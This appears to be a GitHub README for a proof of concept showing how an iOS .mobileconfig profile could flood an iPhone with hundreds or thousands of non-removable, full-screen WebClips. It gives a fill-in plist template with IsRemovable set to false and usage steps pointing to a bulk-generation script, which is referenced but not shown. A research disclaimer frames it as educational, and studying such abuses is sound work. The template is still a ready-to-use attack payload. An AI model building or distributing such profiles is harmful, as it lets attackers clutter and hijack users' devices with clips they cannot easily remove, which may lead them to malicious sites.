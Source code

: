 # iOS WebClip Spam PoC

## Overview

This repository demonstrates a proof-of-concept (PoC) for how iOS WebClips could potentially be exploited to place hundreds/thousands of semi-unremovable, potentially harmful web clips on a user's iPhone via a '.mobileconfig' configuration profile.

## ⚠️ Disclaimer

This PoC is for educational and research purposes only. Do not use this for any malicious activities. Always respect applicable laws and regulations.

## Proof of Concept

This PoC demonstrates how a malicious actor could create a configuration profile that installs multiple WebClips at once, potentially overwhelming the user's device.

### Configuration Profile Structure

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>PayloadContent</key>
    <array>
        <dict>
            <key>FullScreen</key>
            <true/>
            <key>IgnoreManifestScope</key>
            <true/>
            <key>IsRemovable</key>
            <false/>
            <key>Label</key>
            <string>[APP_LABEL]</string>
            <key>Icon</key>
            <data>[BASE64_ENCODED_IMAGE]</data>
            <key>Precomposed</key>
            <true/>
            <key>URL</key>
            <string>[URL]</string>
            <key>PayloadIdentifier</key>
            <string>[ID]</string>
            <key>PayloadType</key>
            <string>com.apple.webClip.managed</string>
            <key>PayloadUUID</key>
            <string>[UUID]</string>
            <key>PayloadVersion</key>
            <integer>1</integer>
        </dict>
    </array>
</dict>
</plist>
```

### Usage

1. Replace the placeholders in square brackets:
   - [APP_LABEL]: Name displayed under the WebClip icon
   - [BASE64_ENCODED_IMAGE]: Base64-encoded icon image data
   - [URL]: Website URL the WebClip opens

2. Use the 'autoCreate.py' Python script, and follow the instructions which are at the top.)

## References

- [Apple Configuration Profile Reference](https://developer.apple.com/business/documentation/Configuration-Profile-Reference.pdf)
- [WebClip MDM Payload Settings](https://support.apple.com/guide/mdm/web-clips-mdm54f9b61d/web)
